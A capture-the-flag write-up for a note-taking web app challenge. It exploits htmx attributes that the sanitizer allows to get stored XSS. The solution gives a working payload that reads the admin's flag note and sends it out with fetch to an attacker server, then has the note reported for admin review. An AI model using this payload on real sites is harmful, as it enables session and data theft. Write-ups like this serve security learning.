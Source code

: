 #### Challenge:

We're excited to announce our new, revolutionary product: A note-taking app. This phenomenal product uses the most up-to-date, bleeding-edge tech in order to stay ahead of all potential security issues. No-one can pwn us.

[Download challenge files](./notes.zip ":ignore")

[The Website](https://awesomenotes.online/)

---

#### Solution:

- poking around reveals that the `htmx` is used for fetching of data and also is whitelisted thus we can exploit it for XSS
```html
<div 
  hx-get="/note/flag" 
  hx-on::after-swap="fetch('/api/note/flag')
    .then((r)=>r.text())
    .then((t)=>fetch('https://my-server/'+encodeURI(t)))"
  hx-trigger="load delay:0.001s"
  hx-swap="innerHTML"
  hx-target="this"
>
```

- report above note for `admin` inspection and profit

---

<details><summary>FLAG:</summary>

```
flag{C3r34l_1s_s0up_l1k3_1f_4gr33}
```

</details>

